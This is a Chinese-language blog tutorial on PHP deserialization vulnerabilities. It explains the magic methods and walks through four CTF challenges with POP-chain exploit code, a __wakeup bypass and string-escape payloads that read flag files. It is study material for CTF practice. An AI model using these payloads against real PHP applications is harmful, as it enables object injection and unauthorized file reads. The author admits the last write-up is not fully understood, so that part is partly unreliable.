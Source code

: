 ```yaml
---
title: PHP反序列化
author: Troye
avatar: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg
authorLink: 
authorAbout: 
authorDesc: 
categories: 技术
comments: true
date: 2020-04-30 14:50:14
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1016626.jpg
---
```

一、序列化与反序列化
PHP序列化是将一个对象、数组、字符串等转化为字节流便于传输，比如跨脚本等。而PHP反序列化是将序列化之后的字节流还原成对象、字符、数组等。但是PHP序列化是不会保存对象的方法。形象化理解就像物流的过程。你想把一张桌子通过从a–>b，一张桌子肯定不好运输，因此需要把它拆开（这个拆的过程就是序列化）；等到达了b需要把他组装起来（装的过程就是反序列化）。
二、PHP反序列化漏洞
PHP类中有一种特殊函数体的存在叫魔法函数，magic函数命名是以符号__开头的，比如 __construct, __destruct, __toString, __sleep, __wakeup等等。这些函数在某些情况下会自动调用，比如__construct当一个对象创建时被调用，__destruct当一个对象销毁时被调用，__toString当一个对象被当作一个字符串使用。
而在反序列化时，如果反序列化对象中存在魔法函数，使用unserialize()函数同时也会触发。这样，一旦我们能够控制unserialize()入口，那么就可能引发对象注入漏洞。
例：
__sleep() //使用serialize时触发
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__toString() //把类当作字符串使用时触发
__invoke() //当脚本尝试将对象调用为函数时触发
三、实例
1、
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/4301.jpg)

首先找到输出flag处，在Read中的_invoke()函数。想要触发invoke函数需要将一个对象调用为函数，很明显是在Test中的_get()函数处。想要触发get函数，就要访问不存在的属性，很明显是Show中的_toString()函数。接下来就是开始构造pop链：

//<?php
class Read{
    public $token;
    public $token_flag;
    function __construct(){
        $this->token = &$this->token_flag; //引用
    }
}
class Show
{
    public $source;
    public $str;
}
class Test
{
    public $params;
}
$p3 = new Read();
$p2 = new Test();
$p2->params = $p3;
$p4 = new Show();
$p4->str = array('str'=>$p2);
$exp = new Show();
$exp->source = $p4;
echo serialize($exp);
?>

2、攻防世界 Web_php_unserialize
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/4302.jpg)
还是先找输出flag的地方，发现只有在Demo类的_destruct()函数处有输出点，无疑要将输出的$this->file的值变为fl4g.php，到这里思路已经很清晰了：先对Demo类序列化，base64加密后get传参到var就行了。其中还有一点要注意的就是执行反序列化时会自动调用wakeup函数从而将file的值重置为index.php，所以这里要绕过wakeup函数。（当成员属性数目大于实际数目时可绕过wakeup方法，正则匹配可以用+号来进行绕过。）
Payload：
//<?php
class Demo {
private $file = 'index.php';
//protected $file1 = 'index.php';
public function __construct($file) {
    $this->file = $file;
    //$this->file1 = $file1;
}
function __destruct() {
    echo @highlight_file($this->file, true);
}
function __wakeup() {
    if ($this->file != 'index.php') {
        //the secret is in the fl4g.php
        $this->file = 'index.php';
    }
}
}
$a=new Demo('fl4g.php');
$b=serialize($a);
$b=str_replace('O:4','O:+4',$b);
$b=str_replace('1:{','2:{',$b);
echo base64_encode($b);
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/4303.jpg)

3、安恒月赛2020年DASCTF——四月春季战 Ezunserialize

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/4304.jpg)

显然flag通过C类的file_get-contents()函数输出，且注意到在B类存在字符串拼接，所以这里将b转换成c类的对象就会触发toString函数。但是这里只实例化了A类，所以要将A的属性实例化为B类。
POP链构造完成：
$a = new A();
$b = new B();
$c = new C();
$c->c = "flag.php";
$b->b = $c;
$a->username = "1";
$a->password = $b;
echo serialize($a);
得到：
O:1:"A":2:{s:8:"username";s:1:"1";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}
接下来还有字符逃逸的问题：
核心思想：过滤导致的字符串位数增加或减少，不会导致序列化中变量名字符数改变,导致逃逸出新的对象

同时对象逃逸的特点是
过滤函数放在了序列化函数之后。

read函数，将\0\0\0 (6个字符) 替换成 chr(0)*chr(0) (3个字符)，所以这里逃逸处3个字符
我们要逃逸出的字符串是
";s:8:"password";s:xx:" 共23位（因为这里payload打在password里，所以xx一定是两位数） 为什么是这个字符串在下面解释

因为一组逃逸出三个字符，所以这里共需逃逸八组，也就是
\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0 （24个\0）将其传入payload1中

只序列化后的结果：
O:1:"A":2:{s:8:"username";s:48:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:8:"password";s:72:"A";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php"}}";}

经过函数过滤后的结果：
O:1:"A":2:{s:8:"username";s:48:"********";s:8:"password";s:72:"A";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php"}}";} （实际每个*号前后有两个空字符，这里未显示）

可以看到，反序列化过程中，在读入username的值时，读入48位，从第一个 空*空 开始读，********";s:8:"password";s:72:"A （因为总逃逸的字符串有24位，需要逃逸的只有23位，这里加上一个A字符，凑成24位）

读完此时，结束，发现原本的password属性被吞，但因为序列化字符串中类里面的变量数是2，所以此时继续读一个变量，读入我们传的password，也就是读出了我们希望传入的password，这时新对象即逃逸出来
构成对象逃逸

成功完成攻击，读取出flag值

整个的payload就是：
?a=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&b=A";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php"}}


4、[安洵杯 2019]easy_serialize_php

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/4305.jpg)

根据代码中的提示，phpinfo中可能存在线索，于是令f=phpinfo查看：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/4306.jpg)

可知flag应该在d0g3_f1ag.php中，要用show_image访问
后面就有点搞不明白了，看了别人的wp想了很久才搞清楚。


过滤函数filter()是对serialize($_SESSION)进行过滤，滤掉一些关键字
正常传img参数进去会被sha1加密，我们应该用别的方法控制$_SESSION中的参数。
本来挺好的序列化的字符串，按某种去掉了一些关键字，本身就不对，本身就涉及到可能破坏原有结构而无法正常反序列化的问题。这里是利用反序列化长度逃逸控制了img参数。之前有一道题目是关键字替换导致字符串长度变长，把后面的原有参数挤出去了，
本题是关键字被置空导致长度变短，后面的值的单引号闭合了前面的值的单引号，导致一些内容逃逸。。

extract后覆盖了两个没用的属性，但是后面又强制加了一个我们不可控的img属性

根据源码，我们先对f传参phpinfo

构造payload来对 /d0g3_f1ag.php读取。

;s:14:"phpflagphpflag";s:7:"xxxxxxx";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}

解释一下：
这里首先phpflagphpflag会被过滤为空，吃掉一部分值

$serialize_info的内容为

a:2:{s:7:"";s:48:";s:7:"xxxxxxx";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";

刚好把后面多余的img部分截断掉

payload:

_SESSION[phpflag]=;s:7:"xxxxxxx";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}

读取/d0g3_fllllllag
payload:

_SESSION[phpflag]=;s:14:"phpflagphpflag";s:7:"xxxxxxx";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/4307.jpg)

注：这道题确实没有完全搞明白，有很多细节的地方现在还理解不了。
四、参考链接
https://www.cnblogs.com/karsa/p/12775854.html
https://www.gem-love.com/ctf/2275.html
https://www.freebuf.com/articles/web/167721.html
https://blog.csdn.net/weixin_45645113/article/details/105309695
https://www.cnblogs.com/wangtanzhi/p/12261610.html
https://blog.csdn.net/chasingin/article/details/104189711




